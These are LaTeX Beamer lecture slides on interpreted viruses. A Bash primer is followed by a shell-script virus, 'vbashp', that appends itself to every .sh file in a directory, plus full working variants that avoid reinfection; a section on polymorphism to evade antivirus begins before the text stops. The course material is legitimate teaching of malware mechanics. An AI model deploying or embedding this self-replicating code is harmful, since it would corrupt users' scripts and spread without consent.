%\documentclass[landscape]{slides}
\documentclass{beamer}
\usepackage{beamerfoils}
\usetheme{Pittsburgh}
%\usepackage[accumulated]{beamerseminar}
                                % remove ``accumulated'' option
                                % for original behaviour
%\usepackage{beamerthemeclassic}
\usepackage{ulem}
%\usepackage{beamerthemesplit}

%\usepackage{beamerthemeshadow}

%\usepackage{beamerthemeplain}
%\usepackage{times}
\usepackage{colortbl}

%\usepackage{lslide}
\def\emptyline{\vspace{10pt}}
\usepackage{amssymb}
%\usepackage{french}
%\usepackage[latin1]{inputenc}
\usepackage[utf8]{inputenc}
%\usepackage[T1]{fontenc}
\usepackage[]{color}
%\usepackage[pdftex]{color}
%\usepackage[]{colorlslide,epsfig}
%\usepackage{amsfonts,stmaryrd}
\usepackage{epsfig}

\usepackage{graphicx,array}
\usepackage{tikz}
\usetikzlibrary{shadows.blur}
\usepackage{amsmath}%,amsthm}
\usepackage{hyperref}
\usepackage{pifont}
\usepackage{listings}
\usepackage{xcolor}
\usepackage{framed}
\usepackage{tcolorbox}

%\renewcommand{\frame}{\end{slide}   \begin{slide}}
%\newcommand{\frametitle}{\centerline}


%\usepackage{beamerthemeshadow}
\usepackage{graphicx}
%\usepackage{beamerthemesplit}

\graphicspath{{./}{figures/}}

%% Terminal environment for code examples
%\definecolor{shadecolor}{RGB}{180,180,180}
\definecolor{shadecolor}{RGB}{0,0,0}
\newenvironment{terminal}{\color{white}\begin{snugshade*}}
{\end{snugshade*}\color{black}}

\definecolor{bluesky}{rgb}{0.8,0.95,1}
\definecolor{ggreen}{rgb}{0.4,0.45,5}

%%%%%%%%%%%%%%%%%% ENVIRONMENTS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\newtheorem{deft}{Definition}
%\newtheorem{theorem}{Theorem}
\newtheorem{proposition}{Proposition}
\newtheorem{exemple}{Example}
\newtheorem{postulat}{Postulate}


%%%%%%%%%%%%%%%%%% COLORS %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\definecolor{encre}{rgb}{0.2, 0, 0.4}
\definecolor{lightblue}{rgb}{0.3,0.35,5}

\newcommand{\red}[1]{\only<#1>{\color{red}}}
\newcommand{\green}[1]{\only<#1>{\color{green}}}
\newcommand{\lra}{\leftrightarrow}
\newcommand{\Fd}{\mathbb{F}}
\newcommand{\enlight}[1]{\textit{\color{blue}#1}}
\newcommand{\blue}[1]{\textit{\color{blue}#1}}

%%   for the headline etc.
\renewcommand\normalcolor{\color{coltitle}}

\setbeamercolor{block body}{bg=bluesky}

%%   for the background
%\pagecolor{grisbleu}
%%   for the text
\color{encre}

%%%%%%%%%%%%%%% style settings ....
 \beamertemplatenavigationsymbolsempty
\beamertemplatefootempty
%\beamertemplatefootframenumber
\setbeamertemplate{footline}[frame number]


\title{Interpreted Viruses}

\AtBeginSection[]
{
\begin{frame}
\frametitle{Outline}
\tableofcontents[currentsection,sectionstyle=show/shaded,subsectionstyle=show/show/hide]
\end{frame}
}

\AtBeginSubsection[]
{
\begin{frame}
\frametitle{Outline}
\tableofcontents[currentsubsection,sectionstyle=show/shaded,subsectionstyle=show/shaded/hide]
\end{frame}
}
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\titlegraphic{
\centering

\includegraphics[width=4cm]{../../assets/images/logos/logo-upvd.png}\\[0.3cm]

\includegraphics[width=7cm]{figures/bash-virus.jpg}
}


\begin{document}

\maketitle


\section{Bourne Again Shell - Refresher}

\begin{frame}
\frametitle{Bourne Again Shell - Refresher}


\begin{itemize}
\item An interpreted language is executed instruction by instruction by a command interpreter.
\item There is not necessarily any use of executable files.
\item We will use BASH (Bourne Again Shell) used on Linux.
\end{itemize}
\end{frame}



\begin{frame}[fragile]
\frametitle{Variables}
\enlight{Variable:} a variable is an identifier that represents a value (here a character string or a numeric value) stored in memory.
\begin{terminal}
\begin{verbatim}
> c=3
> echo $c
3
\end{verbatim}
\end{terminal}
However
\begin{terminal}
\begin{verbatim}
> c=3
> echo c
c
\end{verbatim}
\end{terminal}
\end{frame}

\begin{frame}[fragile]
\frametitle{Character Strings}

To form a character string we use
\begin{itemize}
\item Double quotes ": special characters (\$,\{,[,\ldots) are active
  \begin{terminal}
\begin{semiverbatim}
> c=3
> echo "c equals \$c"
c equals 3
\end{semiverbatim}
\end{terminal}
\item Single quotes: special characters are inactive
\begin{terminal}
\begin{semiverbatim}
> c=3
> echo 'c equals \$c'
c equals \$c
\end{semiverbatim}
\end{terminal}
\end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Environment Variables}
Some variables are already defined in Unix
\begin{itemize}
\item \verb|$USER| = current user name
\item \verb|$PWD| = current directory
\item \verb|$UID| =  user identification number
\item \verb|$PATH| =  paths where to search for executables
\item \verb|$PRINTER| =  default printer name
\item etc. (cf. the Bash guide for beginners)
\end{itemize}
To get the list
\begin{terminal}
\begin{scriptsize}
\begin{verbatim}
> env
SSH_AGENT_PID=2160
GPG_AGENT_INFO=/run/user/clegrand/keyring-mdCATW/gpg:0:1
TERM=xterm
SHELL=/bin/bash
XDG_SESSION_COOKIE=0fa2a2b6a4363c6cab497b6350eb2d66-1379405595.671295-2014846328
WINDOWID=58720260
...
\end{verbatim}
\end{scriptsize}
\end{terminal}
\end{frame}

\begin{frame}[fragile]
\frametitle{Variables}
\begin{itemize}
\item Any new variable is only defined in the shell in which you are working.
\item The \texttt{\bf export} command extends this definition to child shells.
\end{itemize}
{\color{blue} Example:}
\begin{terminal}
\begin{verbatim}
> A="hello"
> B="bye"
> export B
> echo $A $B
hello bye
> bash # We enter a child shell
> echo $A
> echo $B
bye
\end{verbatim}
\end{terminal}
\end{frame}

\begin{frame}[fragile]
\frametitle{Arithmetic}
\begin{itemize}
\item In bash, you can perform basic arithmetic.
\item By default, an arithmetic expression is a character string.
\item To force the computation we use
\begin{center}
\texttt{\$(( $<$arith\_exp$>$ ))}.
\end{center}
\item Example:
\begin{terminal}
\begin{semiverbatim}
>a=3
>b=\$a+4
>echo b
3+4
>b=\$(( \$a+4))
>echo b
7
\end{semiverbatim}
\end{terminal}
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Retrieving Command Output}

To retrieve the result (standard output) of a command we use the syntax
\begin{center}
\texttt{var=\$(command arg1 arg2 \ldots argN)}
\end{center}

{\color{blue} Example:}
\begin{terminal}
\begin{verbatim}
> a=$(whoami)
> echo $a
clegrand
> b=$(date)
> echo "Today is $b"
Today is Tue Sep 17 14:30:40 CEST 2013
\end{verbatim}
\end{terminal}
\end{frame}



\begin{frame}[fragile]

\frametitle{Simple Script}
A script can simply be a sequence of commands

\begin{block}{}

\begin{verbatim}
#!/bin/bash
command1 param_list
command2 param_list
...
commandn param_list
\end{verbatim}

\end{block}
On the 1st line \verb|/bin/bash| gives the path to the interpreter to use for executing the file.
\end{frame}



\begin{frame}[fragile]
\frametitle{Example: hello.sh}
\begin{block}{}
\begin{verbatim}
#!/bin/bash
#Hello world
echo "Hello $USER"
echo "You are in the directory $PWD"
\end{verbatim}
\end{block}

Running hello.sh. We set the execute permission on the file \verb|hello.sh|
\begin{terminal}
\begin{verbatim}
> chmod u+x hello.sh
\end{verbatim}
\end{terminal}
We execute
\begin{terminal}
\begin{verbatim}
> ./hello.sh
Hello toto
You are in the directory /home/toto/bin/
\end{verbatim}
\end{terminal}
\end{frame}



\begin{frame}[fragile]
\frametitle{Parameters}
You can pass parameters when executing a script
\begin{itemize}
\item \verb|$i| (or \verb|${i}| if $i > 10$) equals the i-th argument
\item \verb|$#| equals the number of arguments
\item \verb|$*| equals the list of arguments
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Script parameters.sh}
The file \verb|parameters.sh| contains
\begin{scriptsize}
\begin{block}{parameters.sh}
\begin{verbatim}
#!/bin/bash
#using parameters
echo "$0 is the command name"
echo "$1 is the first argument"
echo "$2 is the second argument"
echo "etc."
echo "$# is the number of arguments"
echo "\"$*\" is the list of arguments"
\end{verbatim}
\end{block}
\end{scriptsize}

When executed we get
\begin{scriptsize}
\begin{terminal}
\begin{verbatim}
> chmod u+x parameters.sh
>./parameters.sh one two three
./parameters.sh is the command name
one is the first argument
two is the second argument
etc
4 is the number of arguments
"one two three" is the list of arguments
\end{verbatim}
\end{terminal}
\end{scriptsize}
\end{frame}



\begin{frame}[fragile]
  \frametitle{Arrays}
  \begin{itemize}
  \item  Arrays are declared with values between parentheses.
  \begin{terminal}
\begin{verbatim}
> Array=("one" "two" "three")
>echo ${Array[2]}
three
\end{verbatim}
\end{terminal}
\item You can append values one by one
  \begin{terminal}
\begin{verbatim}
>Array=()
>Array+=("one")
>Array+=("two")
>Array+=("three")
> echo "elt0=${Array[0]}, elt2=${Array[2]}"
elt0=one, elt2=three
\end{verbatim}
\end{terminal}
\end{itemize}
\end{frame}



\begin{frame}[fragile]
  \frametitle{Arrays (continued)}
  \begin{itemize}
  \item  You can modify the element at a given index
      \begin{scriptsize}
  \begin{terminal}
\begin{verbatim}
> Array=("one" "two" "three")
> Array[1]="2"
> echo ${Array[@]}
one 2 three
\end{verbatim}
  \end{terminal}
    \end{scriptsize}
  where \texttt{Array[@]} corresponds to the entire array.
\item To iterate over the values of an array:
  \begin{scriptsize}
  \begin{terminal}
\begin{verbatim}
Array=("one" "two" "three")
for val in ${Array[@]}
do
  echo "Array value: $val"
done
\end{verbatim}
  \end{terminal}
  \end{scriptsize}
\item To display the array size:
      \begin{scriptsize}
  \begin{terminal}
\begin{verbatim}
> Array=("one" "two" "three")
> echo "${#Array[@]}"
3
\end{verbatim}
      \end{terminal}
        \end{scriptsize}
  \end{itemize}
\end{frame}


\begin{frame}[fragile]
\frametitle{Control Structures}
\begin{itemize}
\item Conditional expression: \verb|if then else fi|
\item Loops: \verb|for do done, while, until|
\end{itemize}
\end{frame}

\begin{frame}[fragile]
\frametitle{Boolean Expressions}
A boolean expression is evaluated with the \verb|test| command or by placing the expression between brackets \verb|[]|
\begin{scriptsize}
\begin{center}
\begin{tabular}{|c|c|}
\hline
\verb|[ -f FILE ]| & True if FILE exists \\
\hline
\verb|[ -r FILE ] | & True if FILE exists and is readable \\
\hline
\verb|[ FILE1 -nt FILE2 ]| & True if FILE1 is newer than FILE2 \\
\hline
Etc.. & cf. the bash user guide\\
\hline
[ Arg1 -eq Arg2 ] & True if Arg1 equals Arg2 \\
\hline
[ Arg1 -ne Arg2 ] & True if Arg1 differs from Arg2 \\
\hline
\hline
[ Arg1 -gt Arg2 ] & True if Arg1 is strictly greater than Arg2 \\
\hline
[ Arg1 -ge Arg2 ] & True if Arg1 is greater than or equal to Arg2 \\
\hline
[ string1 != string2 ] & True if string1 differs from string2 \\
\hline
Etc.. & cf. the bash user guide\\
\hline
\end{tabular}
\end{center}
\end{scriptsize}

\end{frame}


\begin{frame}[fragile]
  \frametitle{Example of if, check.sh}
  \begin{block}{}
\begin{verbatim}
#!/bin/bash
echo "This script checks the existence of /var/log/messages"
echo "Checking.."
if test -f /var/log/messages
then
  echo "/var/log/messages exists"
fi
echo "\n done"
\end{verbatim}
\end{block}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Example of for, count\_readable\_files.sh}
  \begin{block}{\texttt{count\_readable\_files.sh}}
\begin{verbatim}
#!/bin/bash
echo "This script counts the number of files"
echo "that are readable"
count=0
for name in $(ls)
do
  if [ -r $name ]
  then
    count=$(($count+1))
  fi
done
echo "There are exactly $count files"
echo "that are readable"
\end{verbatim}
\end{block}
\end{frame}




\begin{frame}[fragile]
\frametitle{Some Useful Commands}
Filters:
\begin{itemize}
\item  \texttt{\bf grep} selects lines containing a pattern.
\item \texttt{\bf head} selects the first lines of a file.
\item \texttt{\bf tail} selects the last lines of a file.
\end{itemize}

Splitting:
\begin{itemize}
\item \texttt{\bf cut} splits a line based on a separator.
\end{itemize}

Other:
\begin{itemize}
\item \texttt{\bf cat} displays the content of a file.
\item \texttt{\bf tr} translates or substitutes characters with others.
\end{itemize}

\end{frame}


\begin{frame}[fragile]
  \frametitle{Example: cat, head, tail}
  \begin{terminal}
\begin{verbatim}
> cat coucou.txt
coucou1
coucou2
...
coucou9
coucou10
> head -n 4 coucou.txt
coucou1
coucou2
coucou3
coucou4
> head -n 4 coucou.txt | tail -n 1
coucou4
\end{verbatim}
\end{terminal}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Example: head, tail for selecting characters}
  \begin{terminal}
        \begin{scriptsize}
\begin{verbatim}
> echo "abcdefghijklmnopqrstuvwxyz" | head -c 3
abc
> echo "abcdefghijklmnopqrstuvwxyz" | tail -c 3
xyz
> echo "abcdefghijklmnopqrstuvwxyz" | head -c 3 | tail -c 1
c
\end{verbatim}
\end{scriptsize}
\end{terminal}

\end{frame}



\begin{frame}[fragile]
\frametitle{Another Method for Selecting Characters}
 \begin{terminal}
        \begin{scriptsize}
\begin{verbatim}
> ch="abcdefghijk"
> echo ${ch:3}  # select characters from index 3
defghijk
> echo ${ch:3:6} # select characters between index 3 and 6
defghi
\end{verbatim}
\end{scriptsize}
\end{terminal}


\end{frame}

\begin{frame}[fragile]

  \frametitle{Example for tr}
  \begin{itemize}
  \item We substitute lowercase with uppercase
    \begin{terminal}
    \begin{scriptsize}
\begin{verbatim}
> echo "bonjour il fait beau" | tr "abc...vwxyz" "ABC...VWXYZ"
BONJOUR IL FAIT BEAU
\end{verbatim}
    \end{scriptsize}
    \end{terminal}
  \item We substitute newlines with "@":
    \begin{terminal}
      \begin{scriptsize}
\begin{verbatim}
> cat hello.txt
Hello,
Today is a nice day
the sky is blue
and
the sun is shinning
>  cat hello.txt | tr '\n' '@'
Hello,@Today is a nice day@the sky is blue@and@the sun is shinning@
\end{verbatim}
      \end{scriptsize}
      \end{terminal}
  \end{itemize}
  \verb|tr -s " " | replaces consecutive repeated spaces with a single one.
\end{frame}


\begin{frame}[fragile]
  \frametitle{Example for \texttt{cut}}
  With \verb|-d| we specify the separator and with \verb|-fn| we choose to display only the \verb|n|-th field of each line.
  \begin{terminal}
    \begin{scriptsize}
\begin{verbatim}
$ ls -l | cut -f1
total 12
drwxrwxr-x 2 clegrand clegrand 4096 oct.   3  2024 dir1
drwxrwxr-x 3 clegrand clegrand 4096 oct.   3  2024 dir2
-rw-rw-r-- 1 clegrand clegrand    8 avril 23 22:01 fic1.txt
-rw-rw-r-- 1 clegrand clegrand    0 avril 23 22:01 fic2.txt
clegrand@clegrand-laptop:~/tmp$ ls -l | cut -d" " -f1
total
drwxrwxr-x
drwxrwxr-x
-rw-rw-r--
-rw-rw-r--
\end{verbatim}
    \end{scriptsize}
  \end{terminal}
\end{frame}




\section{The \texttt{vbashp} Virus and Improvements}


\begin{frame}[fragile]
\frametitle{The \texttt{vbashp} Virus}
\begin{block}{\texttt{vbashp}}
\begin{semiverbatim}
\alert<2>{for i in *.sh;}
\alert<2>{do \# for all files with the .sh extension}
\alert<3>{if test  "./\$i" != "\$0"; }
\alert<3>{   then \# if target != currently infecting file }
\alert<4>{   tail -n 5 \$0 | cat >> \$i; \# append virus code }
\alert<3>{fi}
\alert<2>{done}
\end{semiverbatim}
\end{block}



\begin{itemize}
\item<2-> \alert<2>{ It infects all files with the \texttt{.sh} extension.}
\item<3-> \alert<3>{ It does not infect the infecting script itself.}
\item<4-> \alert<4>{ It works by appending code at the end of the file.}
\item<5-> This virus is 91 bytes in size.
\item<6-> Appending at the end of the file does not require a temporary file.
\item<7-> When an infected \texttt{.sh} is executed, the viral code runs last.
\end{itemize}
\end{frame}



\begin{frame}
\frametitle{Characteristics of the \texttt{vbashp} Virus}
\begin{itemize}
\item Its action is { \color{blue} limited to the current directory.}
\item The virus is { \color{blue}not stealthy}: it can be spotted simply by its name.
\item The virus is { \color{blue} not polymorphic}: the entire code can serve as a signature.
\item The virus does { \color{blue}not prevent reinfection}.
\item The virus has { \color{blue}no payload}.
\end{itemize}
\end{frame}


\begin{frame}
\frametitle{Improving the \texttt{vbashp} Virus}%

We will make the following improvements to the \texttt{vbashp} virus: %%%%%

\begin{itemize}
\item Reinfection prevention.
\item Slightly improved variants of reinfection prevention.
\item Anti-antivirus countermeasure: polymorphism.
\end{itemize}
\end{frame}



\subsection{Reinfection Prevention}

\begin{frame}
\frametitle{Reinfection Prevention}
\begin{itemize}
\item The virus must verify that it has not already infected the target file.
\item To do this, it must search for a signature that is specific to the virus.
\item The signature must be discriminating: the probability of failing to detect a previous infection must be as low as possible.
\item The signature must be non-incriminating: the probability of a false alarm must be as low as possible.
\end{itemize}
\end{frame}




\begin{frame}[fragile]
\frametitle{Strategy 1 - Using a Specific String}

\begin{itemize}
\item Insert a specific character string in the code.


For example {\color{blue} \texttt{ixYT6DFArwz32@oi7}. }


\item Then simply search for this string in the target file
\begin{semiverbatim}
if [ -z \$(cat \$i | grep "ixYT6DFArwz32@oi7") ]
then
     \#\# infection
fi
\end{semiverbatim}
\item The drawback is that the string \texttt{ixYT6DFArwz32@oi7} makes the virus vulnerable to antivirus action.
\end{itemize}
\end{frame}





\begin{frame}[fragile]
  \frametitle{Strategy 2 - Variant: Code as Signature}
  We need to compare the end of the infecting file:
  \begin{itemize}
  \item with tail we select the end,
    \item with \texttt{echo -n} we remove the newlines.
  \end{itemize}

\begin{block}{\texttt{vbashp-surinf-tail.sh}}    \begin{small}
\begin{semiverbatim}
L=11 # number of lines of viral code
for f in *.sh
do
    \alert{HOST=\$(echo -n \$(tail -n \$L \$f))}
    \alert{VIR=\$(echo -n \$(tail -n $L \$0))}
    if [ \alert{"\$HOST" != "\$VIR"} ]
    then
        \# infect file f
        tail -n \$L \$0 >> $f
    fi
done
\end{semiverbatim}\end{small}\end{block}
\end{frame}

\begin{frame}
  \frametitle{Strategy 3 - Execution Test}


For each target:
\begin{itemize}
\item The virus isolates the last lines potentially containing the virus.
\item It then launches the corresponding code with the argument \texttt{"test"}.
\item Execution with this argument causes the display of \texttt{"test"}.
  \item Analysis of the output tells us whether the file is infected or not.
\end{itemize}
\end{frame}


\begin{frame}[fragile]
  \frametitle{Strategy 3  - Example}
  \begin{block}{vbashp-surinf-test.sh}
    \begin{scriptsize}
\begin{verbatim}
L=23 # number of lines of viral code
if [ ! -z $1 ] &&  [ $1 = "test" ]
   then
       echo "test"   # prints test when already infected
       exit 0
fi
touch test.sh # temporary file for reinfection test
chmod u+x test.sh
for f in *.sh
do
    if [ $f != "test.sh" ]
    then
       # reinfection management
       tail -n $L $f > test.sh # extract the viral code
       t=$(echo -n $(./test.sh "test")) # execution test
       if [ "$t" != "test" ]
       then
           # infection
           tail -n $L $0 >> $f
       fi
    fi
done
rm test.sh
\end{verbatim}
 \end{scriptsize}

  \end{block}
\end{frame}





\subsection{Anti-Antivirus Countermeasure: Polymorphism}



\begin{frame}
\frametitle{The \texttt{vbashp1.sh} Virus}
We will present the code \texttt{vbashp-polymorph.sh} which proceeds as follows:

\begin{center}
\only<1>{
\includegraphics[width=8cm]{figures/process-vbash1-init}}
\only<2>{
\includegraphics[width=8cm]{figures/process-vbash1-restauration}}
